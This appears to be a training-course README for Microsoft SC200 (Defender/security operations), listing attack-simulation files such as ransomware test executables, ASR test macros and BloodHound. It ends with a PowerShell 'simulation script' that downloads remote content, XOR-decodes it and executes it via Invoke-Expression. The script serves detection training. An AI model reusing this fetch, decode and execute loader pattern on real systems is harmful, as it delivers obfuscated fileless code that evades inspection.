 # CourseFiles for SC200

## SC200-Files1

- RS4_WinATP-Intro-Invoice.docm
- BloodHound.ps1
- FilelessATK.ps1
- RS3_WinATP-Intro-Invoice.docm

## SC200-Files2

- SC200-Files2\ASR_CFA_CleanupScript.zip
- SC200-Files2\ASR_SetupScript.zip
- Block_Win32_imports_from_Macro_code_in_Office_92E97FA1-2EDF-4476-BDD6-9DD0B4DDDC7B.docm
- ransomware_cleanup_encrypt_decrypt.exe
- ransomware_testfile_doc.docm
- TestFile_Block_Office_applications_from_creating_executable_content_3B576869-A4EC-4529-8536-B80A7769E899.docm
- TestFile_Impede_JavaScript_and_VBScript_to_launch_executables_D3E037E1-3EB8-44C8-A917-57927947596D.js
- TestFile_OfficeChildProcess_D4F940AB-401B-4EFC-AADC-AD5F3C50688A.docm
- TestFile_PsexecAndWMICreateProcess_D1E49AAC-8F56-4280-B9BA-993A6D77406C.vbs
- UNSIGNED_ransomware_test_exe.exe

## Web-Links, Blogs und mehr
[hier](/WebLinks.md)

## Cross Product Simulation Script
Triggers multiple attacks.

```
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;
$xor = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');
$base64String =	(Invoke-WebRequest -URI	https://wcdstaticfilesprdeus.blob.core.windows.net/wcdstaticfiles/MTP_Fileless_Recon.txt -UseBasicParsing).Content;
Try{ 
    $contentBytes = [System.Convert]::FromBase64String($base64String) 
} 
Catch { 
    $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) 
};

$i = 0;	
$decryptedBytes = @();
$contentBytes.foreach{ 
    $decryptedBytes += $_ -bxor $xor[$i];
    $i++;
    if ($i -eq $xor.Length) {
        $i = 0
        }
    };
Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
```
